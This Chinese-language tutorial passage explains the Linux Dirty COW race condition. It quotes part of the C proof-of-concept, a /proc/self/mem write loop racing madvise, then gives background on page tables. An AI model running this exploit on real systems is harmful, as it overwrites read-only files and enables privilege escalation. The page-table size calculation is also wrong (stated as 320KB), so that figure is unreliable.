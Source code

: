 ```c
    pthread_create(&write_thread, NULL, writeThread, NULL);

    pthread_join(madvise_thread, NULL);
    pthread_join(write_thread, NULL);

    return 0;
}

void * writeThread(void * argv)
{
    int mm_fd = open("/proc/self/mem", O_RDWR);
    printf("fd of mem: %d\n", mm_fd);
    for (int i = 0; i < 0x100000; i++)
    {
        lseek(mm_fd, (off_t) map, SEEK_SET);
        write(mm_fd, fake_content, fk_st.st_size);
    }

    return NULL;
}

void * madviseThread(void * argv)
{
    for (int i = 0; i < 0x100000; i++){
        madvise(map, 0x100, MADV_DONTNEED);
    }

    return NULL;
}
```

简单解释一下，这个程序需要两个参数，第一个参数是需要被修改的只读文件，第二个参数是可读的其他文件。执行后第一个文件中的内容将会被改写为第二个文件的内容。程序会通过mmap系统调用将第一个文件映射到内存空间，随后创建两个线程，一个线程循环通过write打开当前进程的mem虚拟文件对映射的内存进行写操作，一个线程循环调用madvise系统调用提示内核：这块映射的内存空间不再需要。这样，这块映射内存会在某个时刻被内核释放掉。

那么这个漏洞的原理是什么呢？简单看看上面的参考博客，发现要理解起来还是有一定难度的。

# 前置知识
## 页表与缺页异常

在操作系统这门课中我们学到，现代操作系统对于内存地址有一定的处理。内存被分为若干页，**在进程中被处理的内存页均为虚拟内存页，其地址与物理内存页不同，因此需要有一个物理页和虚拟页的映射表**。这个映射表由内存管理单元MMU管理，每一个进程都有一个映射表。

对于现代操作系统，页表一般是多级的，这样做的好处是可以节省内存空间，并降低页表内存空间的连续性。什么意思呢？假如页表只有一级，对于一个64位地址，最低12位作为页内偏移，那么高52位都将作为页表的索引地址。**为了效率考虑，MMU只能使用数组进行索引**，那么这样的话就会有2^52^个页表项，而其中绝大部分都是空的，会大大浪费内存空间，且这块空间是连续的。而如果使用二级页表，中间12位为二级页表索引，最高40位为一级页表索引，这样理论上只有2^40^个一级页表项，它们连续存储的空间消耗大大小于只使用一级页表的情况（虽然还是很大）。**而当一个一级页表对应的地址范围都无效时，内存中完全可以不保存它所对应的二级页表，将二级页表的物理地址设置为0表示无效即可，这样大大节省了空间。否则，一级页表项保存其下的二级页表地址**。

目前主流x86 Linux系统使用4级（多数）或5级页表，对于4级页表，索引64位虚拟地址空间时，假设最低12位作为页内偏移，每一级页表项负责13位（实际不是这样安排的），即一个一级页表项下面有2^13^个二级页表项，一个二级页表项下面有2^13^个三级页表项，以此类推。那么这样一共就会有2^13^个一级页表。假设一个进程只有一个有效的虚拟内存页，那么四级页表系统只需要保存：2^13^个一级页表项（其中只有有效虚拟内存页对应的一级页表项具有有效的二级页表地址）、2^13^个二级页表项（其中只有有效虚拟内存页对应的二级页表项具有有效的三级页表地址）、2^13^个三级页表项（...）、2^13^个四级页表项（...），共2^15^个页表项，如果一个页表项的大小为0x10字节，那么一共就只有320KB用来保存页表项，对于现在的内存来说完全够用。
